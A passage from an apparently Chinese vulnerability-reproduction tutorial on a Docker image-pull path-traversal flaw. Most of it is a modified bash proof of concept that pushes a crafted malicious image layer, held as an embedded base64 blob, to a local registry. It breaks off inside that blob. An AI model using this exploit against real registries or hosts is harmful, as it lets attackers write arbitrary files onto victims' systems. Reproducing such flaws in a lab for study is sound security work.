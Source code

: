 
## 复现漏洞

该漏洞主要针对 Docker 在 pull 镜像时，未处理好镜像中的文件拷贝，导致可以穿越路径来写入恶意文件到指定路径。所以第一件事是先构建恶意镜像，需在刚才搭建的 Registry 上构建。



由于作者提供的 `PoC` 存在一定的问题，直接使用会失败，这里将其进行了修改：

```shell
#!/bin/bash
#
# Copyright (C) 2018, Michael Hanselmann <https://hansmi.ch/>
#

set -e -u -o pipefail
set -x

registry=http://localhost:5000

tmpdir=$(mktemp -d)
trap 'rm -rf "$tmpdir"' EXIT

tmplayer="${tmpdir}/layer.tar"

digest() {
  echo -n sha256: && \
  sha256sum | cut -c-64
}

upload() {
  local datafile="$1"
  local digest="$(digest < "$datafile")"

  # Prepare upload
  local upload_location=$(
    curl -v --dump-header - -XPOST "${registry}/v2/evil/image/blobs/uploads/" |
    perl -ne 'chomp && /^Location:\s*(.+?)\s*$/ && print $1'
    )

  echo "upload_location=${upload_location}" >&2

  curl -v -XPUT --header 'Expect:' --data-binary "@${datafile}" \
    --header 'Content-Type: application/octet-stream' \
    "${upload_location}&digest=${digest}"

  echo -n "$digest"
}

write_base_layer() {
  # Tar containing hive files and dummy Dockerfile
  base64 -d <<'EOF' | gunzip -c
H4sIANXIjFoAA+3d3W7bdBjHcbdaQYoYTGy89MyHcNL43elBQU6bqhUr6QtjVEJDJnOyqC9Bjrt2
HO0SuAkkBBfADXDCMTfAEadcQrFju9ip2yWd46zx9yM1cfz4n3hOn7/n6Kdm2z7bcOynjttfkqrr
3UOnL+ROCl11LymaKsiqf6uokiTrgiQrmqkL4ln+u3LZSd+zXX9XXvd5hv9xt4RWEx9u1q3d1Y3N
rxtLLdexvW7v2OseOSuyLi8rkqLK5pKumrWa4b87FUUXt/Yeb3651ny8t9T2f19sz3NXZKOiSqJ9
9TC/2rq2enR1ddqHaKZNqOVTJEm7tv+D5XT/S4qkCqI+4f0aKHn/D97/6nbyLLDWax04btDbOb3G
q+Z/XVUS77/sv/+arsnM/0VQR5j/1StmfVWpKLKaqLj2af/pirVjNTr1Hct3YMXWBrd1qxM+rO8N
7jqDxzuNaKNH0dq6v3Yn2rBjVU8bbctqrEYbrW8Gt6tW+Nh/nahej+uN6DXWrdWqtbuVfP6H0cK+
9cWBv5OX9udZ8LiiXDqVqdknMMOUzWU5OCteOoGpt+S0FfZ/7i2f4s/n18//ujHU/4qi+/1fSBOV
vP/Xd5tb4lG35fb6vbZXPbaPe33Hfe64dyt3K6vN7X3x/98NsTrtvUXeUmf+je7zN+T6T5c5/xeC
679ym1DLp9zk+k82uf4rwuD9H7r+c9r2yaH3yP9/wHdrzqFnv+5rjD//G5LG53+FGHH+12TTqBlX
zv/+lWDm/H8xLHP+T1Yvz/8X1WkfopkW9n/uLZ9y/fWfkjH/q3rQ/1z/TZ7rdNpz/v1cYl2w/FZi
WQwW7qW3mZT5V9Sb7d1OEftRBov39bmff/vwyb+//sUhBQAAAIAZ9+z77vFg4V52/Zfz8/PjA1H4
84+3L64T/VXncf08Ei+fDdWT7vg/u83mV8HyN/42/QNBCLYPfoIn/mlwf+flD/79y2jMAyH4TODb
```